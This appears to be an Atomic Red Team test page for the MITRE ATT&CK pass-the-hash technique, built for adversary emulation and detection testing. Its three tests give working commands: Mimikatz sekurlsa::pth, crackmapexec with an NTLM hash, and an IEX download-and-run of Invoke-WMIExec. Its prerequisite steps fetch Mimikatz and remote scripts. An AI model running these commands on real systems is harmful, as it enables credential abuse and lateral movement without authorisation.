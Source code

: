 ```yaml
---
tags: [T1550_002, atomic_test]
filename: "[[T1550.002|T1550.002 - Use Alternate Authentication Material: Pass the Hash]]"
---
```


# T1550.002 - Use Alternate Authentication Material: Pass the Hash
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1550/002)
<blockquote>Adversaries may “pass the hash” using stolen password hashes to move laterally within an environment, bypassing normal system access controls. Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash.

When performing PtH, valid password hashes for the account being used are captured using a [Credential Access](https://attack.mitre.org/tactics/TA0006) technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems.

Adversaries may also use stolen password hashes to "overpass the hash." Similar to PtH, this involves using a password hash to authenticate as a user but also uses the password hash to create a valid Kerberos ticket. This ticket can then be used to perform [Pass the Ticket](https://attack.mitre.org/techniques/T1550/003) attacks.(Citation: Stealthbits Overpass-the-Hash)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)

- [Atomic Test #2 - crackmapexec Pass the Hash](#atomic-test-2---crackmapexec-pass-the-hash)

- [Atomic Test #3 - Invoke-WMIExec Pass the Hash](#atomic-test-3---invoke-wmiexec-pass-the-hash)


<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows


**auto_generated_guid:** ec23cef9-27d9-46e4-a68d-6f75f7b86908





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|
| domain | domain | string | %userdnsdomain%|
| mimikatz_path | mimikatz windows executable | path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_path} "sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
<br/>

## Atomic Test #2 - crackmapexec Pass the Hash
command execute with crackmapexec

**Supported Platforms:** Windows


**auto_generated_guid:** eb05b028-16c8-4ad8-adea-6f5b219da9a9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| crackmapexec_exe | crackmapexec windows executable | path | C:&#92;CrackMapExecWin&#92;crackmapexec.exe|
| command | command to execute | string | whoami|
| ntlm | command | string | cc36cf7a8514893efccd3324464tkg1a|
| domain | domain | string | %userdnsdomain%|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{crackmapexec_exe} #{domain} -u #{user_name} -H #{ntlm} -x #{command}
```




#### Dependencies:  Run with `powershell`!
##### Description: CrackMapExec executor must exist on disk at specified location (#{crackmapexec_exe})
##### Check Prereq Commands:
```powershell
if(Test-Path #{crackmapexec_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Automated installer not implemented yet, please install crackmapexec manually at this location: #{crackmapexec_exe}
```




<br/>
<br/>

## Atomic Test #3 - Invoke-WMIExec Pass the Hash
Use Invoke-WMIExec to Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows


**auto_generated_guid:** f8757545-b00a-4e4e-8cfb-8cfb961ee713





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|
| user_name | username | string | Administrator|
| command | Command to run on target system | string | hostname|
| target | System to run command on | string | $env:COMPUTERNAME|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/01ee90f934313acc7d09560902443c18694ed0eb/Invoke-WMIExec.ps1' -UseBasicParsing);Invoke-WMIExec -Target #{target} -Username #{user_name} -Hash #{ntlm} -Command #{command}
```






<br/>
